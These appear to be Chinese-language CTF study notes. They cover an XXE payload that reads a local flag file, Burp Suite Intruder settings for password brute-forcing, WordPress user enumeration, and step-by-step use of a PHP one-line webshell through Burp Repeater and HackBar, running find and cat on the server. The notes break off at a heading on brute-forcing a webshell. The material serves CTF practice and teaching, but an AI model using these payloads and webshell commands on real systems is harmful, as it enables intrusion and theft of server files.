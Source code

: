 和  http://106.75.72.168:9999/flag.js 对比得到结果。

### xxe 漏洞, xml提交

以 Content-Type: application/xml 的方式提交，就能得到答案了。

1

    <?xml version="1.0"?>
    <!DOCTYPE ggmf[<!ENTITY xxe SYSTEM "file:///home/ctf/flag.txt">]>
    
    <tg>&xxe;</tg>


## Burp Suite 使用
User Option - Display - Http Message Display, 使用微软雅黑
User Option - Display - charset: utf8

### Burp Suite
refresh 自动刷新的变量字段。
Options - Grep Match 常用，密码错误的时候，可以添加一个匹配关键字。开始攻击后会多一个字段。[^1]

      结果中也可以过滤(在标签Result下面)，
      grep - match 添加过滤字段 login_error,比返回长度效果更好。
      runtime file 每行作为一个
      custom iterator , 可以生成像 username@@password  ，选posisiton 2 @@, position3 password,
      copy other payload , 两次payload值要一样时使用。
  
wordpress , ?author=1 可以知道 id=1的用户
### Burp Suit 和 Hackbar 使用一句话木马

注意使用 POST 方法提交哦。

__1、 Burp Suite：__

1) 拦截到页面请求, 将其转到 Repeater, 并在最下方加入请求参数:

    shell=system("find / -name 'flag*'");

2) 查看 Response, 最下方有目标文件路径:3) 修改 Repeater 中的请求参数为:

    shell=system("cat /var/www/html/flag.txt");
4) 查看 Response 中的结果:

__2､ HackBar:__

1) 在 HackBar 中输入相应 URL 和请求参数, 请求参数为需要执行的 shell:

    shell=system("find / -name 'flag*'");

2） 在原先的页面可以看到相应结果， 在最下面即是目标文件的路径， 如下图所示：

3） 继续在 Hackbar 中执行命令：

    shell=system("cat /var/www/html/flag.txt");

4） 在原页面即可查看到 flag.txt 中的 flag 内容：

### Burp Suite暴力破解一句话木马
一句话木马
